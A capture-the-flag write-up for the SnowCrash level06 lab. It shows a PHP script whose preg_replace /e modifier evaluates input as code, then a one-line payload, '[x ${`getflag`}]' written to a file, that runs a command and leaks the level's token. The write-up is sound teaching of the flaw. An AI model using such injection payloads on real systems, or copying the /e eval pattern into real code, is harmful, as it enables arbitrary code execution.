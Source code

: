 ```
level06@SnowCrash:~$ ls
level06  level06.php

level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```
Now we know the executable uses the level06.php file and requires a files to operate.

Let's check what's inside of the .php file:

```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
    }
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
    }
$r = x($argv[1], $argv[2]);
print $r;
?>
```

The function x gets the content of the file in the first argument.  
Then, it takes a string with the format "[x 'zero or more of any charater']" evaluated as PHP code and replaces it with the "characters with the backreference 2" to which the function y is applied to.  

The /e modifier is a vulnerability that will allow us to inject a command such as getflag.

```
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/getflag

level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

```